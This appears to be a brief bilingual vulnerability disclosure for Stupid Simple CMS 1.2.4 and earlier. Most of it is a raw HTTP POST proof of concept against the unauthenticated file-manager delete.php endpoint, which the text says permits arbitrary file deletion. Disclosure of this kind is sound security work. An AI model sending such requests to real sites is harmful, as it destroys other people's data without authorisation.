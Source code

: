 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4

POC:
```shell
POST http://localhost/file-manager/delete.php HTTP/1.1
Host: localhost
Content-Length: 58
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/file-manager/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

file=shelj.jpg
```
The code audit found that there is no authentication measure for the file deletion interface, which can cause arbitrary file deletion.
代码审计发现文件删除接口无鉴权措施，可导致任意文件删除。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312171625799.png)
文件如图:
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312141255197.png)
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312141256578.png)
